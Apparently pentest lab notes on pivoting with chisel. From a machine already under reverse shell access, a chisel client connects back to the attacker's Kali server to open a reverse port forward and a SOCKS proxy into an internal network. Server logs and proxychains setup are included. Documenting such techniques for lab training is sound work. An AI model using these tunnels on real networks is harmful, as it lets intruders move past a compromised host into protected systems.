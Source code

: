 on our kali box we use server mode and goes on listening

machine2 will connect to our chisel server using chisel binary and then will forward to other machines

download chisel linux binary for our kali and corresponding chisel binary for victim machine

```
https://github.com/jpillora/chisel/releases
```

transfer it to machine2 which we have reverse shell access

on our kali linux,run as reverse
reverse option allow incoming client to open a port on our kali and connect to destination specified

```
chisel server -p 5555 --reverse
```

on our reverseshell machine1
```
./chisel32 client 192.168.2.129:5555 R:1234:192.168.3.129:80
```

the above command connects to our kali and then 
R stands for remote host or our kali box
and whatever data comes from our box 1234 port that will be redirected to 192.168.3.129 port 80 
so go to browser and open 127.0.0.1:1234
you will see webpage of 192.168.3.129

```
$ ./chisel server -p 5555 --reverse                         
2021/05/30 23:06:57 server: Reverse tunnelling enabled
2021/05/30 23:06:57 server: Fingerprint ZHyDUORbA0i2GQhnaHza0PP3AX13BcDkehSnhlIM4is=
2021/05/30 23:06:57 server: Listening on http://0.0.0.0:5555
2021/05/30 23:07:42 server: session#1: tun: proxy#R:1234=>192.168.3.129:80: Listening
```

you can see connection 

kali:1234 -> machine1 -> machine2:80

now this is like one:one port 
we can make machine1 act as socks 

on our kali box , like always
```
chisel server -p 5555 --reverse
```

on our machine1 
```
./chisel32 client 192.168.2.129:5555 R:1234:socks
```

now machine1 acts as socks
we need to edit proxychains4.conf
add this line
```
socks5 	127.0.0.1  1234
```
